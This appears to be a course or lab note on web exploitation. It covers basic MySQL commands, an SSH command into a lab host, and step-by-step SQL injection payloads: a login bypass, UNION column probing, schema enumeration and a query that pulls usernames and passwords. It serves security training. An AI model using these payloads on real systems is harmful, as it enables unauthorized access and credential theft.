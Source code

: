 
## 6. Web Exploitation Day 2 (SQL)

### SQL Commands

- **SELECT:** Extracts data from a database  
- **UNION:** Combines result-set of two or more SELECT statements

#### MySQL Usage

```sql
mysql
show databases;
use information_schema;
show tables;
show tables from session;
SELECT * FROM session.car;
use <database>;
describe car;
```

#### Demo POST Method

- SSH:
  ```bash
  ssh -MS /tmp/demo demo1@10.50.13.16
  ```
- In Firefox: go to `127.0.0.1:1111`
  - On login screen, use `'OR 1='1` for username and password.
  - Inspect → Network → POST → Request → Raw
  - Example request:
    ```
    x.x.x.x/login.php?username='OR 1='1&password=OR 1='1
    ```
  - Inspect the page source.

#### SQL Injection with GET Method

1. Insert truth statement in vulnerable field:
   ```
   'OR'1='1
   ```
2. Identify number of columns:
   ```
   'UNION SELECT 1,2,3 #
   ```
   - Increase numbers if errors occur.
3. Use "Golden Statement":
   ```
   'UNION SELECT table_schema,2,table_name,column_name,5 FROM information_schema.columns #
   ```
4. Extract credentials:
   ```
   'UNION SELECT username,2,passwd,4,5 FROM session.userinfo #
   ```
